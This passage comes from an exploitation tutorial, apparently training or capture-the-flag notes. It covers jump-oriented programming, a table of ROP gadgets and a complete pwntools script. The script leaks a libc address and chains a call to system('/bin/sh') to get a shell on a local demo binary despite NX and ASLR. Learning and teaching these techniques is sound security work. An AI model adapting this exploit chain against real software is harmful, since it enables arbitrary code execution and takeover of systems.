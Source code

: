 ### XI. ⚙️ Jump-Oriented Programming (JOP)

When `ret` instructions are unavailable (ROP mitigated), use `jmp`-based gadgets.

```python
ROPgadget --binary vuln --only "jmp|call"
```

Chain gadgets performing control flow through indirect jumps.

***

### XII. 💀 Advanced Example: ASLR + NX Bypass (Full Exploit)

```python
from pwn import *
context.binary = ELF('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p = process('./vuln')

# Step 1: Leak libc address
rop = ROP(context.binary)
rop.puts(context.binary.got['puts'])
rop.call(context.binary.symbols['main'])
payload = b"A"*72 + rop.chain()
p.sendline(payload)
leak = u64(p.recvline().strip().ljust(8,b'\x00'))
libc.address = leak - libc.symbols['puts']

# Step 2: Return to system("/bin/sh")
rop = ROP(libc)
rop.call('system', [next(libc.search(b"/bin/sh\x00"))])
payload = b"A"*72 + rop.chain()
p.sendline(payload)
p.interactive()
```

✅ Works even with **NX + ASLR** fully enabled.

***

### XIII. 🧠 Common Gadgets Cheat Sheet

| Gadget                | Purpose             |
| --------------------- | ------------------- |
| `pop rdi; ret`        | Set first argument  |
| `pop rsi; ret`        | Set second argument |
| `pop rdx; ret`        | Set third argument  |
| `pop rax; ret`        | Set syscall number  |
| `syscall; ret`        | Trigger syscall     |
| `mov [rdi], rsi; ret` | Memory write        |
| `leave; ret`          | Stack pivot         |
| `jmp rsp`             | Shellcode jump      |
